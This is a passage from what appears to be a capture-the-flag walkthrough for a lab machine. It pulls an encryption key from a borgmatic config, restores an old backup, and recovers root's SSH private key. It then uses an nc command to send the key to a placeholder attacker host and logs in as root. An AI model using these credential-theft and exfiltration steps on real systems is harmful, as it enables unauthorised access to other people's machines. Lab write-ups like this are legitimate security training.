 Checking the first result, `/etc/borgmatic/` we find a 'config.yaml' file and in this file there is a encryption key that we can use to restore the backups created with BorgBackup:

```
$ cd /etc/borgmatic/
$ ls -lah
$ cat config.yaml
```

![863c6e5c6d6ab5b9e78b2e97416cc3d6.png](/resources/b4da46ecc49a44d684112431da065e9d.png)

To restore the backups, first we have to list the available backups and then use the `/tmp/` directory to store them in:

```
$ cd /tmp
$ borg list /var/backup
```

![68dbf3de10cc90c4ba091d66bbff7725.png](/resources/980a47b49c1a4999bdffcde6a657fab8.png)

Next, we'll extract the first back up `envizon-2020-09-30T23:25:30.466049` using `borg extract`:

```
$ borg extract /var/backup::envizon-2020-09-30T23:25:30.466049
```

Inside the `/tmp/root/.ssh/` directory is an SSH key that was not present in current `/root/.ssh/` directory:

```
$ cd /tmp/root/.ssh/
$ cat id_ed25519
```

![461d992c387f36400e8e8e6fe61b66e8.png](/resources/22091537bcd84823a6fda9b0226be111.png)

We can save this to the attacker machine and connect via SSH on port 22. I will use `nc` to transfer the file or you can copy and paste it:

On the attacker machine:

```
$ nc -lp 1234 > id_rsa
```

On the victim machine:

```
$ nc -w 3 <ATTACKER_IP> 1234 < id_ed25519
```

And then use `chmod` to give the SSH key the proper permissions before trying to connect:

```
$ chmod 600 id_rsa
```

## Port 22 - SSH

Using the SSH key we just found we can connect via SSH:

```
$ ssh -i id_rsa root@$RHOSTS
```

After connecting we can find the root flag in `/root/root.txt`:

```
$ cat /root/root.txt
```

![dcba7d8c95c2bafe053d1520dad33cbb.png](/resources/b0dc02812f9749aab056cfe0e62ac1ba.png)

